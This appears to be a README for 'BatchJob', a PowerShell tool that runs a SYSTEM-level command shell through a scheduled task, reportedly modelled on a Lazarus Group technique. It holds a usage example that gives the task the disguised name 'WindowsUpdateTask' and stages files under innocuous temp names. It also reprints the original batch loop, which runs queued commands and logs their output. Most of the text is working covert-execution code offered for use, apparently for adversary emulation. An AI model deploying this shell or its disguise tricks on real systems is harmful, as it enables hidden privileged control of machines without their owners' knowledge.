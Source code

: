 # BatchJob

A Powershell script that launches a batch command shell as `SYSTEM` using a run once scheduled task. The batch shell was used by the Lazarus Group to launch commands as a high privilege user.

## Usage

Shell commands are written to a stdin file at which point the cmd shell will sleep for a period, read the lines from the input file, execute them one at a time and redirect output to a stdout file where it can be retrieved. The `die` command is given to stop execution and exit.

### Example

```powershell
Invoke-BatchJob -Path "C:\Windows\Temp\cmd.bat" -InputFile "C:\Windows\Temp\TMP486.tmp" -TaskName "WindowsUpdateTask"
Add-Content -Path "C:\Windows\Temp\TMP486.tmp" -Value "dir C:\Windows\Temp\"
Start-Sleep -Seconds 5
Get-Content -Path "C:\Windows\Temp\TMP486.tmp.ret"
```

## Lazarus Group's Original Shell

```bat
@echo off
SET cmd_path=C:\Windows\Temp\TMP298.tmp
copy NUL %cmd_path%
:loop
ping -n 1 1.1.1.1 > nul
for /f "tokens=*" %%a in (%cmd_path%) do (
    if "%%a" equ "die" (
        rem del /a %cmd_path%
        rem del /a %cmd_path%.ret
        echo die >> %cmd_path%.ret
        goto end
    ) else (
        echo %%a >> %cmd_path%.ret
        %%a >> %cmd_path%.ret 2>&1
        echo -------------------------------------------------------- >> %cmd_path%.ret
    )
)
copy NUL %cmd_path%
goto loop
```

